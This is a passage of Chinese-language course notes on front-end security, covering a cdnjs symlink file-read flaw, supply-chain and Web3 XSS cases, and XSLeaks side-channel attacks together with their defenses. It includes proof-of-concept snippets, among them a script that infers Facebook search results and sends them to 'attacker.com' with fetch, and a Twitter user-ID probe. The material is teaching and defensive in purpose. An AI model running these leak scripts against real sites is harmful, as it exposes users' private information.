node -e 'require("fs").copyFileSync("link_file", "test.txt")'
```

結果:

- 目錄底下多了一個 test.txt 的檔案，內容是 /tmp/hello 的檔案內容。
- 執行複製檔案時，並不是「複製一個 symbolic link」，而是「複製指向的檔案內容」

---

漏洞概述:
Git repo 自動更新功能中，存在檔案處理漏洞，Go 複製檔案的程式碼，如果有個檔案是指向 /etc/passwd 的 symbolic link，複製完以後就會產生出一個內容是 /etc/passwd 的檔案。

漏洞利用的步驟:

- 在 Git 倉庫中新增 symbolic link：
  test.js 指向 /etc/passwd
- 觸發 Git 自動更新：
  cdnjs 複製並公開該檔案，公開內容為 /etc/passwd 的內容。
- 實現任意檔案讀取：
  作者成功讀取 /proc/self/environ，發現包含 GitHub API Key。
- 進一步利用：
  使用 API Key 取得 cdnjs repo 的寫入權限，控制整個服務。

---

### 案例的最後

Cloudflare 的回應:

- 發布事件處理報告：[《Cloudflare's Handling of an RCE Vulnerability in cdnjs》](https://blog.cloudflare.com/cloudflares-handling-of-an-rce-vulnerability-in-cdnjs/)。
- 重寫架構，將解壓縮與檔案處理放入 Docker 沙箱隔離。

---

# 身為前端工程師，該如何防禦？

### 前言

瀏覽器其實有提供一個功能：「如果檔案被竄改過，就不要載入」，這樣僅管 cdnjs 被入侵，jQuery 的檔案被竄改，我的網站也不會載入新的 jQuery 檔案，免於檔案污染的攻擊。

使用 script tag 來引入 libary

```
<script
  src="https://cdnjs.cloudflare.com/ajax/libs/react/17.0.2/umd/react.production.min.js"
  integrity="sha512-TS4lzp3EVDrSXPofTEu9VDWDQb7veCZ5MOm42pzfoNEVqccXWvENKZfdm5lH2c/NcivgsTDw9jVbK+xeYfzezw=="
  crossorigin="anonymous"
  referrerpolicy="no-referrer">
</script>
```

---

## 防禦方式

### 1. 使用瀏覽器的 Integrity

- 確認要載入的資源是否符合提供的 hash 值，如果不符合的話，就代表檔案被竄改過，就不會載入資源。
- 只能防止「已經引入的 script」被竄改
- 若初次複製時，檔案已被竄改，則無法防禦

### 2. 使用自有 CDN

- 將第三方資源下載後，託管在自己的 CDN 上，降低第三方風險。

---

### 3. 防禦 npm 相關的供應鏈攻擊

- 風險:

  - 儘管不用第三方 CDN，仍需從 npm 等上游獲取函式庫。
  - 若 npm 被入侵，受影響的不只是單個網站，而是所有依賴該函式庫的服務。

- 防禦方式:
  - 在 build time 使用靜態掃描服務，檢查有無惡意程式碼或被竄改的檔案。
  - 設立公司內部的 npm registry，避免與公共 npm 完全同步，確保函式庫的完整性。

---

# 章節回顧

1. 該如何防禦前端供應鏈的攻擊
2. 為什麼 symbolic link 的處理可能導致任意檔案讀取漏洞？

---

# 5-4 網頁前端攻擊在 Web3 上的應用

## Web3

基於區塊鏈技術的去中心化網絡，讓用戶掌控自己的數據和數字資產，並通過智能合約和代幣經濟創造自主透明的生態系統，應用於 加密貨幣、元宇宙或是 NFT 等領域，實現更安全與民主的互聯網。

### Web3 的世界仍然需要一個入口，而這個入口就是 Web2，也就是我們所熟悉的網頁世界

---

# 影響力更大的 XSS

### 影響力:

- 在傳統 Web2 中，XSS 主要竊取電話、Email 等用戶資料。
- 在 Web3 中，XSS 可能導致加密貨幣的丟失。

使用 Metamask(瀏覽器最知名的錢包之一) 簽署請求時，若透過 XSS 篡改內容，用戶可能無意中授權惡意行為。

### 授權介面可以看一下圖片:

## 

---

### 以 PancakeSwap 為例

- 通常會信任該高知名度網站的交易介面
- 駭客掌握 JavaScript，被篡改交易內容
- Metamask 錢包跳出了提示視窗，要你同意交易
- 通常 9 成的人都會直接按下確定
- 無意中授權惡意合約，損失加密貨幣

### 簽署交易

- 網站透過 JavaScript API 呼叫錢包 (如 Metamask)，跳出相關的介面
- 使用者點擊同意後，使用私鑰完成交易簽署，交易才正式成立

---

# 案例

## PREMINT NFT 網站 XSS 事件

- 2022 年，JavaScript 文件被竄改。
- 使用者無意間授權駭客的智能合約，導致資產損失。
- 更多細節 [PREMINT NFT Incident Analysis](https://www.certik.com/resources/blog/77oaazrsx1mewnraJePYQI-premint-nft-incident-analysis)

---

# 案例

供應鏈攻擊也可以運用在 Web3 的網站上面，接下來要介紹的是由 Sam Curry 在 2022 年時發布的文章[Exploiting Web3’s Hidden Attack Surface: Universal XSS on Netlify’s Next.js Library](https://samcurry.net/universal-xss-on-netlifys-next-js-library)

### 影響力

- 找到共享 library 的漏洞，可能影響多個使用該 library 的網站。

### 漏洞

- 漏洞範圍：Next.js 與 @netlify/ipx。
- 影響：任何使用這些套件的網站都可能被攻擊。
- 目標：利用 XSS 竄改 Web3 靜態頁面，跳出智慧合約授權提示誘騙使用者。

---

# Cookie bomb 的實際應用

## cookie bomb，在 Web3 的世界中有新的意義。

## 文章 [Web2 Bug Repellant Instructions](https://osec.io/blog/2023-08-11-web2-bug-repellant-instructions/)有提到實際案例

- 發布者: OtterSec

---

## SVG 與其他圖片格式的差異

- SVG 支援執行 JavaScript，可能被用來觸發 XSS

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
  <script type="text/javascript">
    alert("Hello");
  </script>
</svg>
```

---

### 一般網站的圖片上傳：

- 圖片可能被儲存在 S3 或其他隔離的網域。
- 即便觸發 XSS，影響範圍僅限於圖片網域。

### NFT 網站的例外情況

- 圖片的重要性：NFT 平台高度依賴圖片來展示數字資產。
- DoS 攻擊：利用 cookie bomb 干擾圖片加載，嚴重影響平台。

---

# 章節回顧

1.  在 Web3 的環境中，為何支持 SVG 上傳可能會引發 XSS 或其他嚴重問題？請舉出具體案例並說明其影響。

---

# 5-5 最有趣的前端旁路攻擊：XSLeaks

## 什麼是 XSLeaks

- 全名為 Cross-site leaks
- 利用技巧從其他網站洩露資訊

## 涉及的範圍

- 前後端的溝通、瀏覽器的運作
- 結合前端技巧與挑戰想像力與創造力

## 想了解什麼是 XSLeaks，得先從什麼是旁路攻擊開始

---

# 旁路攻擊，就是一種旁敲側擊

## 範例: 燈泡問題

### 情境：

每個開關對應到另一房間的三個燈泡，需判斷每個開關對應的燈泡，只能進房間一次。

### 方法:

- 打開 A 開關幾分鐘後關掉，再打開 B 開關。
- 亮燈的 = B 開關、不亮但熱的燈泡 = A 開關。
- 不亮且不熱的燈泡 = C 開關。

### 關鍵:

利用開燈所產生的副作用(溫度)來推斷就叫旁路攻擊。

---

## 什麼是旁路攻擊？

- 攻擊者利用目標系統的副作用（Side Effect）來推斷資訊。

## 網頁的旁路攻擊:XS-Leaks

- 瀏覽器阻止存取非同源網站資訊（同源政策）
- XSLeaks 就是在網頁前端中試著用旁路攻擊的方式繞過同源政策限制，去洩露出另一個不同來源網站的資訊

---

# XSLeaks 實際體驗

### 檢測有在哪些網站登入的網頁：https://browserleaks.com/social ，會看到以下圖片:



---

## 上面網站如何辦到的?

- 使用 HTML &lt;img&gt; 的 onload 和 onerror 事件判斷資源是否成功載入
- 不只 response 的狀態碼是 200 ，若資源是圖片，觸發 onload；若不是圖片，觸發 onerror。

```

```

---

## 登入後的重新導向機制

- 網站行為:

  - 未登入：跳轉至登入頁。
  - 已登入：直接導向目標頁。

- 情境:

  想看自己在購物網站的訂單資訊前往網址:`https://shop.example.com/orders/12345`

- 未登入
  會被導到 `https://shop.example.com/login?redirect=/orders/12345`

- 登入
  就會到原本想去的訂單網頁

---

### 結合圖片載入與登入後重新導向(以 Medium 為例)

- 重新導向功能(logo 網址：`https://medium.com/favicon.ico`):

```
https://medium.com/m/login-redirect
?redirectUrl=https%3A%2F%2Fmedium.com%2Ffavicon.ico
```

- 利用重新導向機制與圖片載入判斷，用 HTML 判斷登入狀態

```

```

- 結果
  使用者有登入的話到 onload：使用者已登入，反之 onerror：使用者未登入。
- 結論: 透過這個「登入後重新導向」的行為，再結合圖片的載入與否，去判斷出一個使用者是否處於登入狀態，這就是經典的 XSLeaks。

---

# 利用狀態碼的 XSLeaks

## <script> 的特性與狀態碼檢測

- 與 &lt;img&gt; 的差異
  - &lt;img&gt; 會檢查內容是否為圖片，非圖片則觸發 onerror
  - &lt;script&gt; 則只檢查狀態碼：
    - 200 狀態碼：觸發 onload，即使內容非 JavaScript。
    - 非 200 狀態碼：觸發 onerror。

### 因此，我們可以用 <script> 標籤來間接知道一個 URL 的狀態碼是成功還是失敗，像這樣

---

```
const express = require('express');
const app = express();

app.get('/200', (req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/html'})
  res.write('<h1>hlelo</h1>')
  res.end()
});

app.get('/400', (req, res) => {
  res.writeHead(400)
  res.end()
});

app.get('/', (req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/html' })
  res.write('<script src="/200" onerror=alert("200_error") onload=alert("200_load")></script>')
  res.write('<script src="/400" onerror=alert("400_error") onload=alert("400_load")></script>')
  res.end()
});

app.listen(5555, () => {
  console.log('Server is running on port 5555');
});
```

---

### 結果

- 訪問首頁時，看到 200_load 與 400_error
- console 顯示的錯誤訊息

```
Uncaught SyntaxError: Unexpected token '<' (at 200:1:1)
```

---

## 案例:[Twitter ID exposure via error-based side-channel attack](https://hackerone.com/reports/505424)

### 情境 :

- Twitter 的 API 回傳使用者相關資訊: `https://developer.twitter.com/api/users/USER_ID/client-applications.json`
- 沒登入，或是登入了可是 USER_ID 對不上，就會回傳 403 狀態碼

### 攻擊可以成行的原因 :

利用狀態碼的差異，判斷用戶是否為某特定對象

### 攻擊方式

在部落格中嵌入以下程式碼，只要 USER_ID 正確且用戶登入，觸發 onload，暴露用戶身份

```
<script src=https://developer.twitter.com/api/users/12345/client-applications.json onload="alert('嗨嗨小明，我知道你在看！')">
</script>
```

---

# XSLeaks 的防禦方式

## 方法一 : Same-Site Cookie

### 機制：

- 設置 SameSite=Lax，無論是用 `` 或 `<script>`都不會攜帶 cookie。
- 瀏覽器現已預設啟用，除非設置為 SameSite=None。

---

## 方法二：Cross-Origin-Resource-Policy（CROP）

### 描述:

資源版的 CORS header，可限制哪些網站能載入資源

### 使用方法:

加上 Cross-Origin-Resource-Policy: same-origin

### 效果:

剛剛的範例中無論是 200 還是 400，script 都會執行到 onerror 事件，console 會出現錯誤

```
GET http://localhost:5555/200 net::ERR_BLOCKED_BY_RESPONSE.NotSameOrigin 200 (OK) GET http://localhost:5555/400 net::ERR_BLOCKED_BY_RESPONSE.NotSameOrigin 400 (Bad Request)
```

---

## 方法三 : Fetch Metadata

### 描述

當網頁發出 request 時，瀏覽器會自動加上的 header

### 常見的 header：

- Sec-Fetch-Site，發出請求的網站跟目標網站的關係
- Sec-Fetch-Mode，發出請求的模式
- Sec-Fetch-Dest，請求的目的地

---

### 舉個小例子說明 :

從一個 cross-origin 的地方在頁面上使用 `<script>` 標籤載入 `http://localhost:5555/200`，header 會是

```
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
```

### 伺服器防禦：

根據 Header 阻止非預期請求

```
app.use((req, res, next) => {
  if (req.headers['Sec-Fetch-Dest'] !== 'empty') {
    res.end('Error');
    return;
  }
  next();
});
```

---

### Sec-Fetch-Site 的值主要有以下幾種

- same-origin
- same-site
- cross-site
- none（無法歸類在上面的，例如說瀏覽器從書籤點開網站）

### Sec-Fetch-Mode 有這幾種：

- same-origin
- no-cors
- cors
- navigate

### Sec-Fetch-Dest 的值因為太多不列出了

---

## 方法四: 統一狀態碼為 200

### 方法

所有回應都設為 200，差異放在 body 中

### 優點

避免利用狀態碼差異進行攻擊

### 缺點

可能需改動後端與前端的邏輯

### 提醒

特地改動狀態碼來防範攻擊不是件好事，牽涉到的東西很多，有可能前端也要跟著改。建議先透過 same-site cookie 去做防禦。

---

# 其他可以 leak 的東西

### 利用 Frames 數量進行資訊洩露

- Cross-origin 的 window 雖然受同源政策限制，但仍可獲取部分資訊
- Frames 的數量是其中之一

```
var win = window.open('http://localhost:5555')
// 等 window 載入完成
setTimeout(() => {
  alert(win.frames.length)
}, 1000)
```

### 效果

- frames.length = 0：沒有 iframe。
- frames.length = 1：包含一個 iframe。

---

# 案例 :

資安公司 Imperva 部落格中的：[Patched Facebook Vulnerability Could Have Exposed Private Information About You and Your Friends](https://www.imperva.com/blog/archive/facebook-privacy-bug/)

### 漏洞描述

Facebook 搜尋頁面，若有結果頁面會包含一個 iframe，若無結果頁面沒有 iframe。

### 攻擊有效原因

利用 frames.length 得知搜尋是否有結果

---

### 攻擊流程

- 先準備一個 HTML 檔:

```
<script>
  let win = window.open('https://www.facebook.com/search/str/chen/users-named/me/friends/intersect')
  setTimeout(() => {
    if (win.frames.length === 0) {
      fetch('https://attacker.com/?result=no')
    } else {
      fetch('https://attacker.com/?result=yes')
    }
    win.close()
  }, 2000)
</script>
```

- 再將這個網頁傳給目標
- 目標打開後，攻擊者就會收到搜尋結果

---

### 無效的防禦方式

- Same-site Cookie:因為使用的是 window.open，即使 SameSite=Lax，cookie 仍會帶上，除非 SameSite=strict。
- Fetch Metadata : 因為這其實是一個正常的 request

### 防禦方式

- 在 header 加入 COOP（Cross-Origin-Opener-Policy），使新開的 window 與原始頁面斷開連結，無法存取 win.frames
- 修改搜尋結果頁面，無論有沒有搜尋到，要嘛就都有 iframe，要嘛就都沒有，就無法透過 iframe 的數量去洩露資訊。

### 備註

Google 本身在 bug bounty 這一塊就特別有一個頁面在講 XSLeaks，大多問題都可以到這邊看([連結](https://bughunters.google.com/learn/invalid-reports/web-platform/xsleaks/5022006283862016/xsleaks-and-xs-search))

---

# 章節回顧

1. 什麼是 XSLeaks？請解釋其基本概念。

2. 如何利用 `` 標籤和登入後的重新導向功能，判斷使用者是否在其他網站處於登入狀態？

---

# 5-6 XS-Leaks 的進階應用 XS-Search 與 Cache probing

### XS-Search

- XSLeaks 跟搜尋這兩件事情結合在一起來進行攻擊

### 影響力

- 搜尋結果通常包含用戶專屬或敏感的內容，通常是私密的
- 可以透過推敲搜尋結果取得機密資訊

---

# Cache probing
